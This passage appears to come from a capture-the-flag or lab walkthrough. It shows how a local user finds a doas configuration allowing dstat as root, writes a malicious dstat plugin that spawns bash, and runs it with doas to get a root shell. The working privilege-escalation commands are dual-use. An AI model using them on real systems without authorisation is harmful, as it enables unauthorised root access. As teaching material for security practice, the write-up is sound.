

as i found the interesting SUID executable, doas searching for this utility on web i found that it works similar as sudo

we need to find the doas.conf file which works similar as sudoers file

```php
find / -type f -name "doas.conf" 2>/dev/null
```



let’s read the conf file for the doas.conf

```php
cat /usr/local/etc/doas.conf
```



uppon searching for the exploit for dstat i found https://gtfobins.github.io/gtfobins/dstat/



so we’ll create python file which contains the python code to spawn shell save the file at /usr/local/share/dstat/dstat_0xh3x.py

and then run it as root using doas, first will create malicious python file 

```php
echo 'import os; os.execv("/bin/bash", ["bash"])' >/usr/local/share/dstat/dstat_0xh3x.py
```

now run doas command to execute the dstat

```php
doas -u root /usr/bin/dstat --0xh3x
```

